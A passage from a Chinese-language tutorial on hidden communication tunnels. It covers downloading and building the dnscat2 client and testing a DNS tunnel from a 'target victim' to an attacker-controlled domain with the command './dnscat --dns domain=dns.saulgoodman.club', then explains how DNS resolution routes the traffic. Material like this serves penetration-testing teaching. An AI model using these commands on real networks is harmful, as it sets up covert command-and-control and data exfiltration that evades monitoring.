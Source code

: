 三：客户端下载安装dnscat2

客户端Windows下载的话是：https://downloads.skullsecurity.org/dnscat2/

下载地址：https://downloads.skullsecurity.org/dnscat2/dnscat2-v0.07-client-win32.zip（密码：password ）

Linux 直接下载并编译：

```
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2 /client/
make
```

四、测试是否能通信

服务端建立后，执行如下命令，测试客户端是否能与服务端通信：

```
./dnscat --dns domain=dns.saulgoodman.club
```

![](./img/隐藏通信隧道基础知识/84.png)

这个时候服务端收到会话：

![](./img/隐藏通信隧道基础知识/86.png)

复盘过程：目标受害者上的dnscat2指定了dns为攻击者的VPS，也就是（dns.saulgoodman.club），解析 dns.saulgoodman.club 会首先在本地dns缓存中查找，没有对应记录的时候，目标dns会从互联网上的跟dns服务器查询，dns根一看域名是 saulgoodman.club ，就会给到 saulgoodman.club 域名服务器，saulgoodman.club 域名服务器就会找 A 记录和 NS 记录。
